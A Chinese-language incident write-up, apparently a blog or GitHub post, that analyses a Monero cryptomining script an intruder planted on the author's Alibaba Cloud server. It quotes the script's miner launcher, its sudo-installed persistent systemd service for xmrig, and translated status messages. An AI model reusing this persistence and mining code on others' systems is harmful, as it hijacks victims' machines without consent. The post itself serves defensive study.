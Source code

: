 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)

## bk.sh，推测是靶机脚本(注入service部分)

### `cat >/tmp/c3pool_miner.service <<EOL` 注入设置脚本后台启动等

#### EOL注入脚本文件

参考信息源：

* [知乎专栏-heredoc入门](https://zhuanlan.zhihu.com/p/93993398)
* [linux265-pidof命令](https://linux265.com/course/linux-command-pidof.html)
* [linux265-nice命令](https://linux265.com/course/linux-command-nice.html)

`<<EOL EOL`创建与书写任意格式文本及代码。`pidof xxx`为查看xxx程序的进程号。nice命令调度进程的优先级，根据教程资料来看，黑客的代码语法还有些问题。

```
cat >$HOME/c3pool/miner.sh <<EOL
#!/bin/bash
if ! pidof xmrig >/dev/null; then
  nice $HOME/c3pool/xmrig \$*
else
  echo ""
fi
EOL
```

#### service内容解读


```
  if ! type systemctl >/dev/null; then

    echo ""
	echo ""
    /bin/bash $HOME/c3pool/miner.sh --config=$HOME/c3pool/config_background.json >/dev/null 2>&1
    echo "ERROR: This script requires \"systemctl\" systemd utility to work correctly."
    echo "Please move to a more modern Linux distribution or setup miner activation after reboot yourself if possible."

  else

    echo "[*] Creating c3pool_miner systemd service"
    cat >/tmp/c3pool_miner.service <<EOL
[Unit]
Description=Monero miner service

[Service]
ExecStart=$HOME/c3pool/xmrig --config=$HOME/c3pool/config.json
Restart=always
Nice=10
CPUWeight=1

[Install]
WantedBy=multi-user.target
EOL
    sudo mv /tmp/c3pool_miner.service /etc/systemd/system/c3pool_miner.service
    echo ""
	echo ""
    sudo killall xmrig 2>/dev/null
    sudo systemctl daemon-reload
    sudo systemctl enable c3pool_miner.service
    sudo systemctl start c3pool_miner.service
    echo "To see miner service logs run \"sudo journalctl -u c3pool_miner -f\" command"
	echo ""
  fi
```

## “echo”及“#”打印及注释信息收集

### echo

"echo"部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

### “#”（全部为机翻）

打印问候语；命令行参数；检查先决条件

```
# printing greetings
# command line arguments
# checking prerequisites
```

计算端口；印刷的意图；开始做事：准备矿工

```
# calculating port
# printing intentions
# start doing stuff: preparing miner
```

准备脚本

```
# preparing script
```

准备脚本背景工作和重启下的工作

```
# preparing script background work and work under reboot
```